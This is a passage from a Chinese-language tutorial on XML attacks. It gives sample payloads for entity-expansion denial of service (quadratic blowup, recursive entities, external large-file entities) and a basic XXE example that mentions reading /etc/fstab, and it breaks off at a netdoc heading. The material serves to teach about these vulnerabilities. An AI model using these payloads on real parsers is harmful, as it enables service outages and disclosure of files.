 #### （3）XML 二次爆破 DDoS 攻击

```
<!DOCTYPE data [
<!ENTITY a0 "dosdosdosdosdosdos...dos"
]>
<data>&a0;&a0;...&a0;</data>
```

#### （4）一般实体递归

最好不要使用递归：

```
<!DOCTYPE data [
<!ENTITY a "a&b;" >
<!ENTITY b "&a;" >
]>
<data>&a;</data>
```

#### （5）外部一般实体

这种攻击方式是通过申明一个外部一般实体，然后引用位于网上或本地的一个大文件(例如：C:/pagefile.sys 或 /dev/random)。换句话说，就是让解析器解析一个 **巨大的 XML 文件**从而导致DoS。

```
<?xml version='1.0'?>
<!DOCTYPE data [
<!ENTITY dos SYSTEM "file:///publicServer.com/largeFile.xml" >
]>
<data>&dos;</data>
```

### 2、基本XXE攻击

#### 有回显的XXE攻击

这种攻击就是漏洞验证时利用的第3、4步的示例，如：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
        <!ENTITY foo "Entity can be hacked">
        ]>
<user>
    <name>Mi1k7ea</name>
    <sex>&foo;</sex>
    <age>20</age>
</user>
```

但是这种攻击方式是需要一个直接的反馈通道即可以回显数据，并且读取文件受到XML中禁止字符的限制，如 “<” 和 “&”。如果这些被禁止的字符出现在要访问的文件中(如：/etc/fstab)，则 XML 解析器会抛出一个错误并停止解析。

#### 使用 netdoc 的 XXE 攻击
